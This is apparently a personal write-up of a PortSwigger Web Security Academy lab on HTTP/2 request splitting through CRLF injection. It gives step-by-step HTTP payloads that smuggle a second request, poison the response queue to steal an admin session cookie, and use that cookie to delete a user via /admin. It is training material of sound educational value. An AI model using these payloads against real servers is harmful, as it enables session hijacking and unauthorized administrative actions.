







# HTTP/2 request splitting via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

step 1
send homepage to repeater



step 2
change get request GET / to GET /x



step 3
add payload

```http
bar

GET /x HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
```



step 4

send request multiple time to get 302 response



```http
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

step 5
change value
send request using step 1

```http
GET /admin HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```



step 6
delete carlos account

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```



step 7

